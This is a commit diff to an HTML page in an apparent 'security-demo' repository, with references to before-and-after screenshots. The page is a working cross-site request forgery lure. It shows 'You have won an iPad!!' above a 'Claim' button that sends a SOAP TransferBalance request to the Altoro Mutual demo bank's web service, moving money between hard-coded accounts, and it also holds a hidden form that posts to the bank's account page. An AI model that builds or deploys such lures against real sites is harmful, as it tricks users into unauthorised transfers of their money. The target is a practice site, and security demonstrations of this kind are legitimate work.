

Before and after one commit to navneetkumar/security-demo, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
some changes

```diff
--- a/index.html
+++ b/index.html
@@ -1,24 +1,62 @@
 <html>
 <head>
+	<style>
+		.myButton {
+			-moz-box-shadow:inset 0px -3px 7px 0px #29bbff;
+			-webkit-box-shadow:inset 0px -3px 7px 0px #29bbff;
+			box-shadow:inset 0px -3px 7px 0px #29bbff;
+			background:-webkit-gradient(linear, left top, left bottom, color-stop(0.05, #2dabf9), color-stop(1, #0688fa));
+			background:-moz-linear-gradient(top, #2dabf9 5%, #0688fa 100%);
+			background:-webkit-linear-gradient(top, #2dabf9 5%, #0688fa 100%);
+			background:-o-linear-gradient(top, #2dabf9 5%, #0688fa 100%);
+			background:-ms-linear-gradient(top, #2dabf9 5%, #0688fa 100%);
+			background:linear-gradient(to bottom, #2dabf9 5%, #0688fa 100%);
+			filter:progid:DXImageTransform.Microsoft.gradient(startColorstr='#2dabf9', endColorstr='#0688fa',GradientType=0);
+			background-color:#2dabf9;
+			-moz-border-radius:3px;
+			-webkit-border-radius:3px;
+			border-radius:3px;
+			border:1px solid #0b0e07;
+			display:inline-block;
+			cursor:pointer;
+			color:#ffffff;
+			font-family:Arial;
+			font-size:15px;
+			padding:9px 23px;
+			text-decoration:none;
+			text-shadow:0px 1px 0px #263666;
+		}
+		.myButton:hover {
+			background:-webkit-gradient(linear, left top, left bottom, color-stop(0.05, #0688fa), color-stop(1, #2dabf9));
+			background:-moz-linear-gradient(top, #0688fa 5%, #2dabf9 100%);
+			background:-webkit-linear-gradient(top, #0688fa 5%, #2dabf9 100%);
+			background:-o-linear-gradient(top, #0688fa 5%, #2dabf9 100%);
+			background:-ms-linear-gradient(top, #0688fa 5%, #2dabf9 100%);
+			background:linear-gradient(to bottom, #0688fa 5%, #2dabf9 100%);
+			filter:progid:DXImageTransform.Microsoft.gradient(startColorstr='#0688fa', endColorstr='#2dabf9',GradientType=0);
+			background-color:#0688fa;
+		}
+		.myButton:active {
+			position:relative;
+			top:1px;
+		}
+
+	</style>
 	<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
 
 </head>
 
 <body>
-	You have won!!
-	</body>
-	<br>
-	<button onclick="transfer();">Transfer</button>
+	<h1>You have won an iPad!!</h1>
+
+	<button class='myButton' onclick="transfer();">Claim</button>
 	</br>
+	</br>
+	<button class='myButton' onclick="show();">Show</button>
 
-	<button onclick="show();">Show</button>
-
-
-	<form id="Form1" method="post" action="http://demo.testfire.net/bank/account.aspx">
+	<form id="Form1" method="post" action="http://www.altoromutual.com/bank/account.aspx">
 		<input id="listAccounts" value="1001160140" hidden="true">
     </form>
-
-
 <body>
 
 
@@ -33,7 +71,7 @@
 		var settings = {
 			  "async": true,
 			  "crossDomain": true,
-			  "url": "http://demo.testfire.net/bank/ws.asmx",
+			  "url": "http://www.altoromutual.com/bank/ws.asmx",
 			  "method": "POST",
 			  "headers": {
 			    "content-type": "text/xml",
@@ -41,19 +79,15 @@
 			    "accept-language": "en-US,en;q=0.8,hi;q=0.6",
 			    "cache-control": "no-cache"
 			  },
-			  "data": "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<soap:Envelope xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\"\n xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" \n xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\">\n <soap:Body>\n  <TransferBalance xmlns=\"http://www.altoromutual.com/bank/ws/\">\n   <transDetails>\n    <transferDate>2000-01-01</transferDate>\n    <debitAccount>1001160140</debitAccount>\n    <creditAccount>1001160141</creditAccount>\n    <transferAmount>20</transferAmount>\n   </transDetails>\n  </TransferBalance>\n </soap:Body>\n</soap:Envelope>"
+			  "data": "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<soap:Envelope xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\"\n xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" \n xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\">\n <soap:Body>\n  <TransferBalance xmlns=\"http://www.altoromutual.com/bank/ws/\">\n   <transDetails>\n    <transferDate>2000-01-01</transferDate>\n    <debitAccount>1001160140</debitAccount>\n    <creditAccount>1001160141</creditAccount>\n    <transferAmount>21</transferAmount>\n   </transDetails>\n  </TransferBalance>\n </soap:Body>\n</soap:Envelope>"
 			}
 
 		$.ajax(settings).done(function (response) {
 		  console.log(response);
+		  console.log("Successful transaction")
 		});
 
 	}
 </script>
 
-<script type="text/javascript">
-		window.setTimeout(function(){
-
-		},10000);
-</script>
 </html>
```
Also changed, not shown: 1 other file.
